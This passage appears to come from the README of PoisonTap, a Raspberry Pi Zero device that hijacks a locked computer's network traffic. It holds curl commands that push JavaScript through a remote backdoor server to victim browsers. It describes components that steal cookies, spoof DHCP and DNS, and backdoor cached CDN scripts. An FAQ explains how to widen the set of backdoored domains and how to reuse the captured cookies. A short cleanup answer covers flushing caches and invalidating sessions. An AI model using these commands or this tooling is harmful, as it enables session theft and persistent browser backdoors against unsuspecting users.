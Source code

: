 ```bash
# pop alert to victim
curl 'http://samy.pl:1337/exec?alert("muahahahaha")'
# to set a cookie on victim
curl 'http://samy.pl:1337/exec?document.cookie="key=value"'
# to force victim to load a url via ajax (note, jQuery is stored inside the backdoor)
curl 'http://samy.pl:1337/exec?$.get("http://192.168.0.1.ip.samy.pl/login",function(d)\{console.log(d)\})'
```
* **pi_poisontap.js** - This runs via Node.js on the Raspberry Pi Zero and is the HTTP server responsible for handling any HTTP requests intercepted by PoisonTap, storing siphoned cookies, and injecting the cached backdoors.
* **pi_startup.sh** - This runs upon startup on the Raspberry Pi Zero in order to set the device up to emulate an Ethernet-over-USB gadget, set up our evil DHCP server, allow traffic rerouting, DNS spoofing, and to launch pi_poisontap.js above. 
* **target_backdoor.js** - This file is prepended to any CDN-related Javascript files, thus backdooring them, e.g. Google CDN's jQuery URL.
* **target\_injected\_xhtmljs.html** - This is the code that gets injected into unintentional/background HTTP/AJAX requests on the victim's machine and spawns the entire attack. It is constructed in a way that it can be interpreted as HTML or as Javascript and still execute the same code. Additionally, the amazing HTML5 canvas is by the incredible <a href="http://codepen.io/ara_node/" target=_blank>Ara oen CodePen</a> and was too amazing not to include. This is the graphical craziness that appears when the page gets taken over by PoisonTap.
* **poisontap.cookies.log** - This file is generated once the user's machine starts sending HTTP requests to PoisonTap and logs the cookie from the browser along with the associated URL/domain it belongs to.

-----

# Frequently Asked Questions

* **Q:** How do you add additional domains to be backdoored?
* **A:** The list of domains to be backdoored is set in `target_injected_xhtmljs.html` by the `getDoms()` function. This itself is populated by the `alexa1m.sh` script in the root of the repo. If you wish to add additional domains to this list, you can simply amend the return call in `getDoms()`.
* **Q:** How do you use the captured cookies?
* **A:** You can use the [Document.cookie API](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) directly from the JavaScript console in your browser to set cookies. [This StackOverflow post](https://superuser.com/questions/244062/how-do-i-view-add-or-edit-cookies-in-google-chrome) also has a few Chrome-specific suggestions, for example the [Cookie Inspector](https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn) Chrome extension.
* **Q:** How do I clean Poisontap from a machine?
* **A:** You should clear the local OS DNS cache, as well as any browser caches. You may also need to invalidate any logged-in sessions at the time, which may have leaked cookies. Ensure that these invalidate existing cookies, rather than simply logging you out. (If you want to safetly work with a PoisonTap device on your current machine, make sure to exit any browser, then you should be able to safetly connect it to your machine).

----
